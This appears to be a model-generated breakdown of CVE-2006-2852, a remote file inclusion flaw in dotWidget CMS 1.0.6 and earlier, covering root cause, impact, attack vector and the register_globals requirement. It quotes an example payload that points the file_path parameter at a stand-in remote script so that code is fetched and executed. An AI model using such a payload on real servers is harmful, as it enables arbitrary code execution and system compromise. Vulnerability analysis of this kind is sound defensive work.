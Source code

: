 Based on the provided content, here's the breakdown of the vulnerability:

**CVE ID:** CVE-2006-2852

**Root Cause of Vulnerability:**
- The vulnerability is caused by insufficient sanitization of the `file_path` parameter in `index.php`, `feedback.php`, and `printfriendly.php`. This allows an attacker to include arbitrary files, including remote files.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The application does not properly validate the `file_path` parameter, making it vulnerable to RFI. This allows an attacker to include and execute malicious code from a remote server.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** Successful exploitation allows an attacker to execute arbitrary code on the server, potentially leading to complete system compromise.
- **Confidentiality Impact:** Partial loss of confidentiality is possible as attackers can gain access to sensitive information.
- **Integrity Impact:** Partial loss of integrity is also possible, where attackers can modify data or the application's behavior.
- **Availability Impact:** Partial loss of availability is possible by crashing the application or making it inaccessible.

**Attack Vectors:**
- **HTTP GET/POST Request:** The attacker sends a crafted HTTP request (likely using a GET or POST method) containing a malicious URL within the `file_path` parameter to the vulnerable scripts (`index.php`, `feedback.php`, `printfriendly.php`).

**Required Attacker Capabilities/Position:**
- **Remote Position:** The attacker does not need to be local to the server and can exploit the vulnerability remotely over the network.
- **No Authentication Required:** The attack can be performed without needing prior authentication.
- **Basic Networking Knowledge:** Attackers need basic understanding of how to send HTTP requests.

**Additional details from the content:**

*   **Affected Software:** dotWidget CMS version 1.0.6 and prior.
*   **Configuration Requirement:** `register_globals` must be set to "On" for the vulnerability to be exploitable.
*   **Exploitation Example:** The content provides an example payload: `file_path=http://www.yourspace.com/yourscript.php?`.

This information provides a clear understanding of the vulnerability, its impact, and how it can be exploited.